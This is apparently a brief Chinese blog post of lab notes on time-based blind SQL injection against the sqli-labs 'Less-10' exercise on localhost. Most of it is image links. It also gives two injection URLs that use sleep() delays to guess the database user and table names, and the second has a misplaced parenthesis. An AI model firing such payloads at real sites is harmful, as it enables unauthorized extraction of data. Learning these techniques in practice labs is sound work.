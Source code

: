 ```yaml
---
layout: post
title: 1.3.2-SQL注入-SQL盲注-时间盲注
category: 
  - web安全
tags: 
  - sql注入 
  - sql盲注
abbrlink: 4135600167
date: 2018-06-23 00:00:00
---
```


## 时间盲注

### 时间盲注原理
![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/06/01.png)
![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/06/02.png)



### 时间盲注方法

![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/06/03.png)
	
	http://localhost:90/Less-10/?id=1" and if(left(user(),1)='a',0,sleep(3))--+

	http://localhost:90/Less-10/?id=1" and if(left(select table_name from information_schema.tables where table_schema=database() limit 0,1),1)='r',0,sleep(3))--+

时间注入脚本  

![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/06/04.png)
![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/06/05.png)

--- 
## links
[时间盲注](https://mp.weixin.qq.com/s?__biz=MzIzNzExNzI5Ng==&mid=2648732982&idx=1&sn=159f2b13d7737232577ae11ccecb33d2&chksm=f0d95f29c7aed63f2e0aea215f57672f7282de08c47a1033e6b2cfe1fee5fb788b4c8de405c0&mpshare=1&scene=23&srcid=0702v4QOmQfViIjUPqq98LAc)
